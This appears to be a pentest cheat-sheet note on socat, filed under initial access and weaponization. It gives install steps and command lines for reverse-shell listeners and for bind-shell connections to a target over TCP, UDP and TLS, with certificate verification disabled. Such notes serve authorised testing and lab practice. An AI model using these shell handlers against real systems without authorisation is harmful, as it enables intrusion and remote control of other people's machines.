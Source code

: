 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

Install `socat` according to your package manager.

```
$ sudo apt install -y socat

$ sudo dnf install -y socat

$ sudo pacman -S --noconfirm socat
```

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

> [!NOTE]
> Using root privileges to bind a listener to ports below 1024.

## 02 - Reverse Shell Handler

### 2.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP-LISTEN:<PORT>

$ socat -d -d TCP4-LISTEN:443 STDOUT
```

## 03 - Bind Shell Handler

### 3.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP:<target_IP>:<target_PORT>
```

### 3.2 - UDP Method

```
$ socat FILE:`tty`,raw,echo=0 UDP:<target_IP>:<target_PORT>
```

### 3.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Payloads/Cross Platform/One-Liners/Netcat Variants/Socat]]

### Hackers Arise

- [Hackers Arise: Socat - The Advanced Hacker's Network Tool](https://hackers-arise.com/socat-the-advanced-hackers-network-tool/)